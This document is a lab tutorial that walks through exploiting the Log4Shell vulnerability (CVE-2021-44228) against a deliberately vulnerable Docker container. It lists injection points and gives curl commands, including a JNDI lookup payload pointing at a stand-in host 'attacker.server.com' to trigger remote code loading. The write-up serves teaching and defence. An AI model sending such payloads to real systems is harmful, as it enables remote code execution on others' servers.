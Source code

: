 # Log4J / CVE-2021-44228
    Versions: All versions from 2.0-beta9 to 2.16


CVE-2021-44228 or Log4Shell is a vulnerability found in the Java library with the maximum criticality score of CVSS 10/10. The library named Log4j got this rating because besides being very popular, it grants access to Remote Code Execution (RCE).

It is still used by many companies of all types and sizes and even after months of its discovery being made public, a lot of hosts still haven't updated their software. Here in this article, I present a way to run the exploit so that you can understand the vulnerability and prevent it from being exploited on your system and also explain a little about your application.

Your first targets are usually data entry points like username and password logins, http headers like User-Agent, X-Forwarded-For and others. Basically anywhere the user can provide data.

To perform this exploit, I used a vulnerable and easy-to-apply LAB with Log4J available in this [GIT](https://github.com/leonjza/log4jpwn).

![docker](https://user-images.githubusercontent.com/66689576/160430502-abc2c99e-7a65-48d5-913d-f165442ef757.png)

With docker running on port 8080, we can start to identify if the server is vulnerable to log4shell or not.
It may be interesting to check the version of Log4J, if there is a log where you can insert some information that the application does not consider as a string, as well as an endpoint with some protocol such as HTTP for example, which may allow sending a malicious string.

At first, I will use **curl** to send a request to the server, requesting the java version from the User-Agent.

    curl -v -H 'User-Agent: ${java:version}' '172.17.0.1:8080/'

Making the server run it: 

![ua](https://user-images.githubusercontent.com/66689576/160430578-9caa5e17-129b-4bc3-a7fd-1e574ac4fc2e.png)

Now we can get a little better look at what's to come. If in our request, we use the **JNDI** (Java Naming and Directory Interface) protocol, it becomes possible to execute some malicious payload inside the server, thus triggering the log4j vulnerability, which, after execution, makes the server returns us a Java classpath, which was injected earlier.

This injected payload when triggered, gives the attacker access to execute arbitrary code. 

	curl -v -H 'User-Agent: ${jndi:ldap://attacker.server.com/payload}' '172.17.0.1:8080/'
	
JNDI is an independent API that gives access to directory services, bringing objects or data to the client side through information (name). Its two basic functions are to associate a name with a resource and to find a resource by its name. 

When we make a request to the User-Agent, sending what would be the payload, through Curl to the server, we are acting within the network itself, being safer to detect the vulnerability.

![curlTrue](https://user-images.githubusercontent.com/66689576/162072699-82285f21-70d6-4668-b94c-96a1ab4eb771.png)

Here we can see that a connection was established with my machine, when the server (docker) executed the payload I sent to it, thus releasing the opportunity for an RCE.

![nc22222](https://user-images.githubusercontent.com/66689576/162073080-26e07482-377c-43d7-afd7-b8009d32631e.png)

Server-side view running the payload:

![logLog](https://user-images.githubusercontent.com/66689576/162073340-6db1bf73-975d-47b7-97d7-011c7c7c76c8.png)

## Conclusion

Between these versions it is possible to execute a script/payload on the server where the application is, giving the possibility to create an RCE connection through any field that we can insert data, http headers...

That's it :)
